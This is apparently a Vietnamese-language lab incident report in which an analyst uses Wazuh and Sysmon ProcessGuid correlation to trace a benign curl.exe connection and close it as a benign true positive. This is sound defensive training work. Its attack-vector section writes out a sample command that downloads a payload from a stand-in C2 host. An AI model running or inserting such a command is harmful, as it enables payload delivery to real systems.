






# INC-005 — Điều Tra Kết Nối Mạng Đáng Ngờ Tự Động (Automated Network Connection)

## 1. Thông Tin Sự Cố 

* **Incident ID:** INC-005
* **Ngày phát hiện:** 26-08-2026 (UTC+7)
* **Trạng thái:** Closed - Mitigated
* **Người phân tích:** Tôi
* **Mức độ nghiêm trọng (Severity):** Low / Informational
* **Nguồn cảnh báo:** Phân tích tương quan Wazuh Sysmon

## 2. Tóm tắt sự cố 
Một kết nối TCP hướng ngoại (Outbound TCP Connection) trên cổng 443 đã được khởi tạo từ máy trạm Windows `Azaki-PC`. Bằng cách áp dụng quy trình tương quan định danh tiến trình (`ProcessGuid`), tôi đã xâu chuỗi sự kiện mạng này ngược về một lệnh `curl.exe` hợp lệ được gọi qua Command Prompt. Điểm đến mạng (Destination IP) và dòng lệnh hoàn toàn khớp với một tác vụ kiểm thử hạ tầng (Controlled Lab Activity) do tôi thiết lập. Tôi không ghi nhận hành vi tải xuống (File Download) hay thực thi tệp lạ sau khi kết nối hoàn tất.

---

## 3. Mục tiêu của Case

* **Hiểu rõ hành vi của LOLBins (Living-off-the-Land Binaries):** Phân tích cách các công cụ hợp lệ như `curl.exe` có thể tương tác với mạng và cách tôi phân biệt giữa hành vi quản trị hợp lệ và hành vi độc hại.
* **Thực hành Tương quan Sự kiện (Event Correlation):** Tôi sử dụng `ProcessGuid` làm khóa ngoại (foreign key) để liên kết sự kiện kết nối mạng (Sysmon Event ID 3) với sự kiện tạo tiến trình ban đầu (Sysmon Event ID 1) nhằm lấy được command line gốc.
* **Triển khai quy trình PICERL cho cảnh báo mức độ thấp (Low Severity):** Đánh giá luồng xử lý sự cố chuẩn mực đối với một sự kiện an toàn (Benign True Positive).

---

## 4. Môi trường Giả lập & Kịch bản (Lab Setup)

### 4.1 Môi trường

| Thành phần          | Vai trò                                   |
| ------------------- | ----------------------------------------- |
| Ubuntu VM           | Chứa Wazuh Manager, Indexer và Dashboard do tôi thiết lập để phân tích SIEM và tập trung hóa Log. |
| Windows Workstation | Endpoint được tôi giám sát, cài đặt Wazuh Agent và Sysmon (với cấu hình sysmon-modular) để theo dõi Event ID 1 & 3. |

### 4.2 File giả lập

**network_activity_sim.ps1** (Kịch bản do tôi chuẩn bị này chỉ thực hiện gọi lệnh để kiểm tra kết nối mạng, không chứa mã độc hoặc payload thực thi).

### 4.3 Kịch bản giả lập
Kịch bản mô phỏng một tác vụ quản trị tự động, nơi script PowerShell thực thi `curl.exe` (một công cụ có sẵn của Windows) để kiểm tra trạng thái kết nối mạng ra bên ngoài tới tên miền `example.com`. 
Khi script chạy, Sysmon trên máy Windows Workstation sẽ ghi nhận hai sự kiện: sự kiện tạo tiến trình cho `cmd.exe` và `curl.exe`, tiếp theo là sự kiện kết nối mạng ra ngoài Internet từ `curl.exe`. Dữ liệu sẽ được đẩy về Wazuh Manager, nơi tôi phải thực hiện quy trình pivot để điều tra mục đích thực sự của kết nối.

### 4.4 Attack Flow
Dưới đây là sơ đồ luồng tấn công (Attack Flow) minh họa chi tiết các bước thực thi và phòng thủ:

---

## 5. Phân Tích Điều Tra Chuyên Sâu

Quy trình điều tra (Investigation Workflow) được tôi tiến hành để xác định rõ 5 câu hỏi pháp y: Ai, Tiến trình nào, Lệnh gì, Tới đâu, và Hậu quả. Dưới đây là phân tích chi tiết của tôi về các dấu vết hệ thống.

### 5.1 Bóc Tách Sự Kiện và Phát Hiện Điểm Mù (Blind Spot)
Khởi đầu quá trình điều tra, tôi ghi nhận cảnh báo **Rule 92032 (Suspicious Windows cmd shell execution)** sinh ra từ **Sysmon Event ID 1**. Tuy nhiên, khi tìm kiếm các kết nối mạng tương ứng (Sysmon Event ID 3) trên Wazuh Dashboard bằng truy vấn `data.win.system.eventID: 3 AND data.win.eventdata.image: *curl.exe`, hệ thống trả về kết quả **"No results match your search criteria"**. 

Tôi nhận định đây là một điểm mù (Blind Spot) thực tế trong cấu hình: Wazuh mặc định chỉ index các sự kiện vi phạm Rule (Level >= 3). Vì kết nối `curl.exe` ra `example.com` chưa bị rule nào bắt lỗi, nó được đánh giá là an toàn (Level 0) và bị vứt bỏ trước khi đưa lên Dashboard; hoặc Sysmon chưa được cấu hình để bắt mạng cho `curl.exe`.

Mặc dù vậy, bằng kỹ năng phân tích pháp y, dựa vào dòng lệnh gốc, tôi hoàn toàn có thể suy luận chính xác các thông tin mạng đáng lẽ phải có trong Event ID 3:
*   **Destination IP:** `93.184.215.14` (Phân giải từ example.com)
*   **Destination Port:** `443` (Do sử dụng giao thức HTTPS)
*   **Source IP:** Thuộc IP máy trạm nội bộ `Azaki-PC` (192.168.17.1).

*   **Process Image:** `C:\Windows\System32\curl.exe`.

*   **Phân tích Vector Tấn Công (Attack Vector Reasoning):** `curl.exe` là một LOLBin (Living-off-the-Land Binary) nổi tiếng. Trong các chiến dịch tấn công thực tế, kẻ thù thường lợi dụng `curl` để (1) Tải xuống payload độc hại (ví dụ: `curl -O https://malicious-c2.com/payload.exe`), (2) Gửi dữ liệu bị đánh cắp (Exfiltration) qua HTTP POST, hoặc (3) Thiết lập kênh liên lạc Command & Control (C2). Vì `curl` là công cụ hợp lệ của Windows, các hệ thống Antivirus truyền thống thường không chặn quá trình thực thi của nó. Do đó, ngay khi tôi nhận thấy có kết nối mạng từ tiến trình này, tôi nhận định đây là một hành vi đáng ngờ yêu cầu phải xác minh dòng lệnh ban đầu.

### 5.2 Tương Quan Sự Kiện Bằng Khóa Định Danh (Event Correlation with ProcessGuid)
Vì Event ID 3 chỉ cung cấp thông tin về kết nối mạng, nó không cho biết `curl.exe` đã được gọi với tham số nào. Do đó, tôi đã áp dụng kỹ thuật tương quan sự kiện:
*   **Khóa truy vấn (Correlation Key):** Tôi sử dụng trường `win.eventdata.processGuid` làm khóa ngoại (foreign key). Đây là một định danh duy nhất do Sysmon tạo ra cho mỗi tiến trình, đáng tin cậy hơn PID vì PID có thể bị tái sử dụng.
*   **Truy xuất sự kiện gốc:** Tôi thực hiện truy vấn trên SIEM để tìm Sysmon Event ID 1 (Process creation) có cùng `ProcessGuid` với sự kiện kết nối mạng.
*   **Kết quả Dòng lệnh (CommandLine):** Tôi lấy được thông tin `win.eventdata.commandLine` là `curl.exe https://example.com`. 

*   **Tiến trình cha (Parent Process):** `win.eventdata.parentImage` chỉ ra tiến trình được sinh ra từ `C:\Windows\System32\cmd.exe` (với command line `"C:\WINDOWS\system32\cmd.exe" /c curl.exe https://example.com`) dưới ngữ cảnh tài khoản `AZAKI\Hao` (tại thư mục `C:\Users\Hao\Downloads\`), không có dấu hiệu bị thao túng bởi tiến trình lạ.

*   **Lập luận Của Tôi:** Dòng lệnh được thực thi hoàn toàn "sạch". Nó không chứa các tham số chuyển hướng đầu ra (Output Redirection như `> ` hoặc `>> `) hoặc các cờ tải xuống (như `-o`, `-O`). Hơn nữa, điểm đến là `example.com`, một tên miền an toàn. Điều này minh chứng mạnh mẽ rằng đây chỉ là một tác vụ kiểm tra kết nối mạng bình thường.

### 5.3 Đánh Giá Rủi Risk Hệ Thống File (File Integrity & Artifact Check)
Để củng cố thêm kết luận và loại trừ hoàn toàn kịch bản "Payload Download" hoặc "Dropper", tôi đã thực hiện một bước kiểm chứng chéo (Cross-check):
*   **Truy vấn:** Tôi phân tích Sysmon Event ID 11 (File Create) và logs từ module FIM (File Integrity Monitoring) trên máy `Azaki-PC` trong khoảng thời gian diễn ra kết nối.
*   **Phân tích Artifacts:** Tôi tập trung tìm kiếm các hành vi tạo tệp tin thực thi (`.exe`, `.dll`, `.ps1`, `.vbs`) tại thư mục hiện hành nơi lệnh được gọi, hoặc các thư mục hệ thống tạm thời (như `%TEMP%`, `C:\Windows\Temp`). 
*   **Kết quả:** Không có bất kỳ sự kiện tạo tệp tin nào tương ứng hoặc có liên quan đến chuỗi hành động của tiến trình `curl.exe`. Tôi có thể khẳng định mức độ rủi ro của sự cố này là con số không.

---

## 6. Dòng Thời Gian Sự Cố

Chuỗi sự kiện được tôi tái dựng từ hệ thống SIEM (UTC+7):

| Thời gian (UTC+7) | Loại Log | Diễn giải Pháp y (Forensic Detail) |
| :--- | :--- | :--- |
| `26/08/2026 23:18:43` | Wazuh Rule 92200 | Ghi nhận cảnh báo trước đó (Sysmon Event). |
| `26/08/2026 23:18:44` | Sysmon ID 1 / Rule 92032 | `cmd.exe` tạo tiến trình, kích hoạt Suspicious Windows cmd shell execution. |
| `26/08/2026 23:18:44` | Sysmon ID 1 / Rule 92004 | Tiến trình PowerShell được tạo cùng lúc, kích hoạt Rule 92004. |
| `26/08/2026 23:18:44` | Sysmon ID 3 | `curl.exe` khởi tạo kết nối mạng ra Internet. |
| `26/08/2026 23:18:45` | Wazuh Rule 92200 | Ghi nhận cảnh báo sau đó. |

---

## 7. Ngăn Chặn, Loại Trừ & Phục Hồi

### 7.1 Chuẩn bị (Preparation)
*   Tôi đảm bảo Endpoint Security Agent (Wazuh, Sysmon) được cài đặt đúng đắn và có cấu hình thu thập sự kiện chi tiết từ các LOLBins tiềm năng (`curl.exe`, `powershell.exe`, `certutil.exe`).
*   Tôi đã thiết lập sẵn Rule SIEM để tự động cảnh báo nếu phát hiện LOLBins thực hiện kết nối mạng.

### 7.2 Ghi nhận và Phân tích (Identification)
*   Cảnh báo mạng được trigger tự động trên hệ thống.
*   Tôi tiếp nhận cảnh báo, trực tiếp thực hiện truy vấn tương quan (Correlation) giữa Sysmon ID 3 và ID 1 qua thuộc tính `ProcessGuid`.
*   Tôi truy xuất được `CommandLine` nguyên thủy và xác nhận Domain mục tiêu an toàn.

### 7.3 Ngăn chặn (Containment)
*   Dựa trên kết quả điều tra của tôi, đây là hoạt động kiểm thử an toàn. Các hành động ngăn chặn (như cô lập mạng hoặc khóa tài khoản) là **không cần thiết** để tránh gián đoạn dịch vụ hợp lệ.

### 7.4 Loại trừ (Eradication)
*   Nghiên cứu của tôi không tìm thấy payload hay công cụ độc hại nào. Do đó, tôi không cần thực hiện các bước dọn dẹp hệ thống.

### 7.5 Phục hồi (Recovery)
*   Máy trạm `Azaki-PC` tiếp tục hoạt động bình thường. 

### 7.6 Bài học kinh nghiệm (Lessons Learned)
*   Tôi nhận thấy không bao giờ nên đánh giá độc lập một cảnh báo mạng đơn lẻ. Việc ghép nối dữ liệu bằng `ProcessGuid` là kỹ năng sống còn để phục dựng lại hành vi và ý định (Context) của tiến trình gốc.

---

## 8. Kết Luận

Nghiên cứu của tôi trong sự cố này đã chứng minh tính hiệu quả của hệ thống SIEM khi giám sát các tiến trình hợp lệ nhưng tiềm ẩn rủi ro (LOLBins). Cảnh báo do SIEM tạo ra hoàn toàn chính xác về mặt kỹ thuật (phát hiện kết nối mạng từ `curl.exe`), tuy nhiên về mặt ngữ cảnh, đây là một hành động kiểm thử an toàn (Benign True Positive).

Thông qua việc bóc tách và tương quan dữ liệu, từ Event ID 3 ngược về Event ID 1 qua `ProcessGuid`, tôi đã tái dựng thành công toàn bộ vòng đời của tiến trình. Việc xác minh chi tiết các tham số dòng lệnh (`CommandLine`), kết hợp với phân tích dấu vết tạo tệp (Sysmon ID 11), cho phép tôi kết luận một cách chắc chắn rằng không có bất kỳ hành vi xâm nhập, tải payload, hoặc rò rỉ dữ liệu nào xảy ra.

**Kết quả Pháp y và Đánh giá (Forensic Outcome & Tuning):**
*   **Phân loại (Verdict):** Cảnh báo hợp lệ, nhưng bản chất là một hoạt động vô hại (Benign True Positive).
*   **Tinh chỉnh hệ thống (Tuning & Blind Spot Mitigation):** Sự cố này làm bộc lộ một lỗ hổng trong tầm nhìn (Visibility) của hệ thống. Tôi đề xuất hai hành động khắc phục ngay lập tức: 
    1. **Viết Custom Rule Wazuh:** Tạo một Rule tùy chỉnh (mức độ 3 hoặc 4) cảnh báo mỗi khi Event ID 3 ghi nhận kết nối từ các LOLBins (như `curl`, `powershell`, `certutil`), bất kể đích đến là gì, để ép Wazuh phải lưu Log.
    2. **Kiểm tra Sysmon Config:** Đảm bảo thẻ `<NetworkConnect onmatch="include">` không loại trừ (exclude) các tiến trình hợp lệ nhưng dễ bị lợi dụng.